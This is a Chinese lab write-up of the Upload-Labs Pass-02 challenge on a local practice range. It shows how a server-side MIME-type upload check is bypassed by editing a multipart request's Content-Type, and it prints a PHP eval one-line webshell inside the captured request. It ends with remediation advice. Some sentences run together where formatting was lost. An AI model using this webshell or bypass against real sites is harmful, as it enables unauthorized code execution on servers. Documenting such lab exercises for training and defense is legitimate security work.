





Upload-Labs Pass-02：MIME 类型校验绕过
本文记录本机授权靶场 http://127.0.0.1.nip.io:8081/Pass-02/ 的实验过程。关卡要求向服务器上传一个 PHP 文件；本次通过 Burp Suite 截获 multipart 请求，把文件字段的 Content-Type 改为 image/png，从而通过服务端 MIME 类型检查。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | Upload-Labs |
| 关卡 | Pass-02 |
| 漏洞类型 | 客户端可控 MIME 类型校验绕过 |
| 工具 | Burp Suite、浏览器 |
| 验证目标 | 上传 PHP 文件并通过 Web 路径访问 |
二、功能观察
Pass-02 的页面同样提示“请选择要上传的图片”。直接选择一个名为 一句话木马.php 的文件后，页面允许继续提交，说明浏览器端没有有效拦截 PHP 扩展名。

开启 Burp 拦截后点击“上传”，可以从 HTTP history 中看到请求发往 POST /Pass-02/。此时文件字段的原始声明为 Content-Type: application/octet-stream，文件名仍保留 .php 扩展名。

三、请求与载荷
请求中真正决定上传内容的字段如下。为了方便展示，示例边界值使用占位符；实际复现时保持抓包得到的 boundary 不变即可。
POST /Pass-02/ HTTP/1.1
Host: 127.0.0.1.nip.io:8081
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEXAMPLE
------WebKitFormBoundaryEXAMPLE
Content-Disposition: form-data; name="upload_file"; filename="一句话木马.php"
Content-Type: application/octet-stream
<?php @eval($_POST['pass']); ?>
------WebKitFormBoundaryEXAMPLE
Content-Disposition: form-data; name="submit"
上传
------WebKitFormBoundaryEXAMPLE--
.php 文件名，脚本内容也已进入 multipart 请求体。四、漏洞定位与绕过
本关的信任边界位于文件类型判断。服务端根据请求方提供的 MIME 类型判断文件是不是图片，却没有根据文件真实内容或最终扩展名重新做安全判定。因此，只要把文件字段的 Content-Type 改成允许值，PHP 文件就可以继续进入保存流程。
在 Burp Repeater 中，仅修改文件字段的这一行：
Content-Type: image/pngfilename="一句话木马.php" 保持不变。这里要区分两个值：filename 决定服务器最终使用的文件名，而 Content-Type 只是客户端附带的类型声明。将后者改为 image/png 后重新发送，页面返回上传成功状态，并显示一个损坏图片占位框。

.php，只把 MIME 改为 image/png 就通过了校验。Content-Type，而不是检查真实文件内容。五、访问结果与验证边界
上传文件可从下面的地址直接访问：
http://127.0.0.1.nip.io:8081/upload/一句话木马.php
pass 参数时才会进入 eval()；截图没有包含命令回显，也没有单独 Flag。因此本文不把“页面可访问”扩大表述为“RCE 已验证”。若继续验证，应提交只输出固定标记的无副作用的 POST 请求，并单独记录响应。六、影响与修复
服务端把客户端声明的 MIME 当作安全判断依据，使攻击者可以用披着图片类型的 PHP 文件穿过上传校验。一旦上传目录允许脚本执行，任意文件上传就可能进一步演变为服务器代码执行。
- 服务端必须使用扩展名白名单，并且不能信任客户端提交的
Content-Type。 - 使用
finfo_file()、图像解码或其他内容检测方法识别真实文件类型。 - 对图片重新编码，去除附加在图片数据后的可执行内容。
- 由服务端生成随机文件名和固定安全扩展名，不接受客户端指定最终路径。
- 将上传目录移出 Web 根目录，或禁用该目录中的脚本解析权限。
七、复盘
Pass-02 的关键不是复杂的木马内容，而是请求元数据与服务端信任边界之间的错位。实验时把“MIME 校验被绕过”“文件成功写入”“Web 路径可访问”和“代码执行已验证”拆开记录，证据边界会更清楚。本关的最终修复仍应落到服务端的内容验证、重命名和禁止上传目录执行脚本上。